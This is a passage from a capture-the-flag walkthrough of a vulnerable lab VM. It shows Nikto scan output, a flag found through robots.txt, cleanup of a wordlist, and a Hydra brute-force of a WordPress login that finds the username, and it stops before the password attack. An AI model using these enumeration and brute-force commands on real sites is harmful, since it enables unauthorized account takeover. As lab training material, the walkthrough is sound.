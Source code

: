 ```bash
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2017-09-11 12:58:25 (GMT-4) (401 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Flag 1
So, there seems to be some wordpress intalation working. We'll get right to that just after we check out the robots.txt file:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Bingo! Opening key-1-of-3.txt file give us the first flag:
```
073403c8a58a1f80d943455fb30724b9
```
## Flag 2
Another interesting file revealed by robots.txt file is named fsocity.dic and it seems to be kind of dictionary. Unfortunatetly it's full of double entries, so we need to clean it up:
```bash
# wget http://192.168.0.105/fsocity.dic
# sort fsocity.dic | uniq > fsocity.uniq.dic
# wc -l fsocity.dic 
858160 fsocity.dic
# wc -l fsocity.uniq.dic 
11451 fsocity.uniq.dic
```
Filtered dictionary is roughly only 1% of original file. That should radically shorten amount of time needed for enumeration.

But what to enumerate? Let's give a go a standard wp-login form. Worpress login page is kind enough to tell us if we got the username right, so we can split the enumeration in two stages to further decrease number of combinations. First we go with login enumeration with any, constant password:

```bash
# hydra -L fsocity.uniq.dic -p dupa 192.168.0.105 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.0.105%2Fwp-admin%2F&testcookie=1:Invalid username"Hydra

[80][http-post-form] host: 192.168.0.105   login: elliot   password: dupa
[80][http-post-form] host: 192.168.0.105   login: Elliot   password: dupa
[80][http-post-form] host: 192.168.0.105   login: ELLIOT   password: dupa
[STATUS] 454.85 tries/min, 9097 tries in 00:20h, 2355 to do in 00:06h, 16 active
1 of 1 target successfully completed, 3 valid passwords found
```
Now, that we know the login, we can hardcode it and enumerate the password:
